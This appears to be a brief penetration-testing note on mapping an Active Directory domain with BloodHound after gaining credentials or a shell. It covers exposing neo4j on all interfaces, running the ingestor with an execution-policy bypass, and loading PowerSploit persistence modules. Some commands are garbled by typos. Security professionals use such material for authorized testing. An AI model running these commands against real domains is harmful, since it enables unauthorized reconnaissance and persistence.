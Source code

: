 ### Mapping AD with BloodHound

One of the glorious design features of AD is that everyone needs to know where everything is. So when you get user credentials and/or a shell, you can basically map the entire domain. Any user can query Active Directory for groups and sessions.

Now we can use that to make a cool GUI map of the entire AD which can be quirired in using BloodHound. Do the following:

- [Set up neo4j](https://neo4j.com/developer/kb/how-do-i-enable-remote-https-access-with-neo4j-30x/)
- Run neo4j from `/opt/neo4j-community-3.1.1/bin/neo4j start`
- Navigate to localhost:7474 in your browser.
- Set a new password for the neo4j account.
- Edit neo4j.conf and set the following parameters to make any host be able to access the database.
```
dbms.connector.http.enabled=true
dbms.connector.http.listen_address=0.0.0.0:7474
```
- Restart neo4j with  `/opt/neo4j-community-3.1.1/bin/neo4j restart`
- Launch bloodhound and log in to the neo4j database


The old method:
```
powershell -exec bypass
upload /path/bloodhound.ps1
Import-Module ./BloodHound.ps1
Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```

The new method:
```
scriptimport /path/to/powershell-script.ps1
scrimptcmd Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```

You should now see data being populated into the database and you can play with BloodHound to create really some really cool maps. You can also perform queries to show the shortest path to DA, etc.


kan nå laste opp powersploit moduler.
upload /path/powersploit/persistence.msl1
import-module ./persistence.msl1
Get-SecurityPackages
